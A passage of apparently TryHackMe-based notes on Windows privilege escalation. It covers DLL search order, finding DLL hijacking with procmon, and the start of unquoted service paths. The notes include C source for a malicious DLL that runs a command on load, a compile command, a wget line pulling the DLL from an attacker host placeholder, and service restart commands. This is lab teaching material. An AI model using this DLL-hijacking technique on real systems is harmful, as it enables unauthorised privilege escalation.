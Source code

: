 5. The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.

6. The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.


### Finding DLL Hijacking Vulnerabilities

- Identifying DLL Hijacking vulnerabilities will require loading additional tools or scripts to the target system.

- we use process monitor(`procmon`) tool.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/2bffcc52df1b20dd298154b4da9b52ae.png)

### Creating the malicious DLL file

- code for malicious dll file

```c
           
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}

```

- The mingw compiler can be used to generate the DLL file with the command given below: 

`x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`

installation of mingw compiler on linux: `apt install gcc-mingw-w64-x86-64`

transfer the file to target system.(you can user powershell)
`wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll`

stop and start the dllsvc service again 
`sc stop dllsvc & sc start dllsvc`

***

## Unquoted Service Path 

when the service is launched, Windows follows a search order, example we have a service (e.g. srvc) which has a binary path set to `C:\Program Files\topservice folder\subservice subfolder\srvc.exe`.

- If the path is written between quotes, Windows will directly go to the correct location and launch service.exe. 

- if the path is not written between quotes and if any folder name in the path has a space in its name,Windows will append ".exe" and start looking for an executable,
